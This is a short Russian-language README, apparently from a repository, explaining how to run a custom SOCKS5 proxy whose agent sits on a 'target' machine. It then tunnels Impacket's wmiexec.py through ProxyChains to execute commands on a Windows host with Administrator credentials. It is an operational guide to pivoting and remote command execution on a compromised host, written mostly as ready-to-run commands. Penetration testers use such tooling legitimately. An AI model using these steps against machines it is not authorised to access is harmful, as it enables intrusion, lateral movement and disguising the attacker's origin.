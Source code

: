 # 📝 Мини-инструкция: использование собственного SOCKS-прокси + ProxyChains + Impacket

## 🔹 1. Запуск прокси

Твой прокси состоит из двух частей:

1. **Контроллер** – запускается у тебя локально (на своём компе).

   ```bash
   java -jar controller.jar
   ```

2. **Агент** – запускается на целевой машине (Таргете).

   ```bash
   java -jar agent.jar
   ```

После этого между ними устанавливается канал, и твой контроллер начинает слушать порт (`127.0.0.1:1080`) в качестве SOCKS5-прокси.

---

## 🔹 2. Выбор нужного агента

В CLI контроллера выполни:

```text
list
```

Посмотри активных агентов и подключись к нужному (по имени из списка):

```text
connect <имя_агента>
```

Пример:

```text
Controller CLI. Type 'help' for commands.
> list
Active agents:
  1) computer_name
> connect computer_name
```

---

## 🔹 3. Проверка соединения

1. **Без прокси** (чтобы узнать свой реальный IP):

   ```bash
   curl api.ipify.org
   ```

   Выведет твой настоящий внешний IP.

2. **Через твой SOCKS-сервер**:

   ```bash
   proxychains4 curl api.ipify.org
   ```

   Здесь должен показаться **другой IP-адрес** (адрес того компьютера, где запущен агент).

👉 Если IP меняется → значит трафик идёт через твой прокси.

---

## 🔹 4. Тест команды через Impacket

Теперь пробуем выполнить простую команду на таргете. Например, создать папку и файл:

```bash
proxychains4 wmiexec.py Administrator:'Пароль'@123.456.78.90 "cmd.exe /c \"mkdir C:\test && echo hello > C:\test\text.txt\""
```

Где:

* `Administrator` – логин на целевой Windows-машине,
* `Пароль` – его пароль,
* `123.456.78.90` – IP таргета,
* команда создаёт `C:\test\text.txt` с содержимым `hello`.

---

## 🔹 5. Проверка результата

* Убедись, что на таргете появилась папка `C:\test` и файл `text.txt` с содержимым `hello`.
* Если что-то не так, смотри логи Proxychains (`[proxychains]`) — они покажут, идёт ли соединение через прокси.

---

✅ Итог:

1. Запускаешь **контроллер** у себя.
2. Запускаешь **агент** на машине-таргете.
3. В контроллере: `list` → `connect <имя_агента>` (получишь локальный SOCKS5 на `127.0.0.1:1080`).
4. Проверяешь IP через `curl` и `proxychains4 curl`.
5. Если IP разный → запускаешь любую команду через `proxychains4 impacket-...`.
